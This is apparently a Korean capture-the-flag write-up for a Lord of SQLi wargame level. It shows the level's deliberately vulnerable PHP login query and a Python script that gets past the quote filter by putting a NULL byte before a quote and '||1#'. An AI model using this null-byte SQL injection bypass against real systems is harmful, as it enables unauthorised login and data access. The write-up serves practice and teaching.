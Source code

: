 ## Zombie_assassin Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");  
if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
if(@ereg("'",$_GET[id])) exit("HeHe");  
if(@ereg("'",$_GET[pw])) exit("HeHe");  
$query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) solve("zombie_assassin");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/zombie_assassin_eac7521e07fe5f298301a44b61ffeec0.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}

params['id'] = 'admin'
params['pw'] = chr(0) + "'||1#"

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] ZOMBIE_ASSASSIN Clear")
```
이번 문제는 **ereg()** 함수의 취약점을 이용하면 된다.  
ereg 함수는 NULL 문자 전까지만 검사하기 때문에 NULL 문자를 넣어준 뒤 싱글쿼터를 넣어 우회할 수 있다.  
url에 입력할 때는 `%00`을 넣어주면 된다.